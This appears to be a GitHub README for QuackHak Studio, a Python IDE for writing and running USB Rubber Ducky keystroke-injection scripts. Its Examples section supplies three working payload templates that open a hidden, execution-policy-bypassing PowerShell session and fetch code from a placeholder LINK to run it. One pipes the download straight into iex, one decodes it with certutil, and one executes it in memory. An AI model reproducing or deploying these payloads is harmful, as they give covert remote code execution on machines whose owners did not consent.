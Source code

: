 # QuackHak Studio

QuackHak Studio is an Integrated Development Environment (IDE) for Rubber Ducky scripts. It provides a user-friendly interface for creating and editing Rubber Ducky scripts, making it easier to write and test your payloads. With QuackHak Studio, you can write, save, and execute your Rubber Ducky scripts with ease.

## Features

- **Syntax Highlighting**: QuackHak Studio provides syntax highlighting for Rubber Ducky scripts, making it easier to identify different commands and keywords.

- **Code Execution**: You can execute your Rubber Ducky scripts directly from the IDE, allowing you to test your payloads quickly.

- **Undo/Redo**: QuackHak Studio supports undo and redo actions, making it easy to revert changes or redo previous actions.

- **Code Templates**: QuackHak Studio offers both predefined and custom template options for various Rubber Ducky script types. This allows you to either use our ready-made templates or create your own tailored template to get started quickly.

## Getting Started

1. Download and install Python if you haven't already. You can download it from the [Python website](https://www.python.org/downloads/).

2. Clone this repository or download the `quackhak.py` script.

3. Install the required dependencies using the following command:

   ```bash
   pip install PyQt5
   ```

4. Run the QuackHak Studio script using the following command:

   ```bash
   python quackhak.py
   ```

5. Start writing your Rubber Ducky scripts in the QuackHak Studio IDE.

## Usage

- **File Menu**: The File menu allows you to open, save, and save your scripts with different options.

- **Edit Menu**: The Edit menu provides options for undoing and redoing actions.

- **Tools Menu**: Access useful tools like URL shortener and GitHub directly from the IDE.

- **Run Menu**: Run your Rubber Ducky scripts directly from the IDE or execute PowerShell scripts.

## Examples

### Basic Rubber Ducky Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK|iex;FUNCTION
DELAY 500
ENTER
```

### Base64 Encoded Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
DELAY 500
ENTER
```

### Memory Execution Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
DELAY 500
ENTER
```


## Author

QuackHak Studio is developed by [CaliNux](https://github.com/calinux-py).

## Acknowledgments

- Special thanks to I_am_Jakoby, Redd, and Wesley5n1p35

Feel free to contribute to this project and help improve QuackHak Studio for Rubber Ducky enthusiasts. 
